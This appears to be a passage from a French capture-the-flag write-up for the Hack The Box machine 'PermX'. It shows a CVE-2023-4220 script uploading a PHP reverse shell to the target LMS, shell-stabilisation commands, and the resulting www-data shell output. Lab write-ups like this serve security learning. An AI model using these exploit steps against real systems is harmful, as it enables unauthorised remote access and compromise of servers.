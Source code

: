En utilisant la CVE, on upload un reverse shell php :
```bash
./CVE-2023-4220.sh -f ../php-reverse-shell.php -h http://lms.permx.htb/ -p 6789

-e 
The file has successfully been uploaded.

-e #    Use This leter For Interactive TTY ;)  
##    python3 -c 'import pty;pty.spawn("/bin/bash")'
##    export TERM=xterm
##    CTRL + Z
##    stty raw -echo; fg
-e 
## Starting Reverse Shell On Port 6789 . . . . . . .
-e 
Listening on 0.0.0.0 6789
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at lms.permx.htb Port 80</address>
</body></html>


ls


Connection received on 10.10.11.23 56516
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 14:35:56 up  5:55,  2 users,  load average: 0.00, 0.14, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ $ bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
```
